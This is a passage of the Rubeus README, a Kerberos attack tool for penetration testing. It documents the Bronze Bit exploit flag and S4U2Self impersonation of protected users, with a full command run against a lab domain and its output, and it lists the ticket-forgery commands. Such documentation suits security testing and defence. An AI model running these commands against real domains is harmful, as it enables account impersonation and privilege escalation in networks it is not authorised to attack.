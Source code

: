 The *Bronze Bit* exploit (CVE-2020-17049) is implemented using the `/bronzebit` flag. Adding this flag will automatically flip the *forwardable* flag when retreiving the S4U2Self ticket. As flipping this flag requires the service ticket to be decrypted and reencrypted, the long term key (service account's password hash) is required. For this reason, if a TGT is being supplied, the service accounts credentials are also required for this to work.

It is possible, in certain cirsumstances, to use an S4U2Self ticket to impersonate protected users in order to escalate privileges on the requesting system, as discussed [here](https://exploit.ph/revisiting-delegate-2-thyself.html). For this purpose, the `/self` flag and `/altservice:X` argument can be used to generate a usable service ticket.

To forge an S4U2Self referral, only the trust key is required. By using the `/targetdomain:X` argument with the `/self` flag and without the `/targetdc` argument, Rubeus will treat the ticket supplied with `/ticket:X` as an S4U2Self referral and only request the final S4U2Self service ticket. The `/altservice:X` can also be used to rewrite the sname in the resulting ticket:

    C:\Rubeus>Rubeus.exe s4u /self /targetdomain:internal.zeroday.lab /dc:idc1.internal.zeroday.lab /impersonateuser:external.admin /domain:external.zeroday.lab /altservice:host/isql1.internal.zeroday.lab /nowrap /ticket:C:\temp\s4u2self-referral.kirbi

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.5.0

    [*] Action: S4U

    [*] Action: S4U

    [*] Using domain controller: idc1.internal.zeroday.lab (192.168.71.20)
    [*] Requesting the cross realm 'S4U2Self' for external.admin@external.zeroday.lab from idc1.internal.zeroday.lab
    [*] Sending cross realm S4U2Self request
    [+] cross realm S4U2Self success!
    [*] Substituting alternative service name 'host/isql1.internal.zeroday.lab'
    [*] base64(ticket.kirbi):

          doIFETCCBQ...RheS5sYWI=



## Ticket Forgery

Breakdown of the ticket forgery commands:

| Command     | Description |
| ----------- | ----------- |
| [golden](#golden) | Forge an ticket granting ticket (TGT) |
| [silver](#silver) | Forge a service ticket, can also forge TGTs |
| [diamond](#diamond) | Forge a diamond ticket |
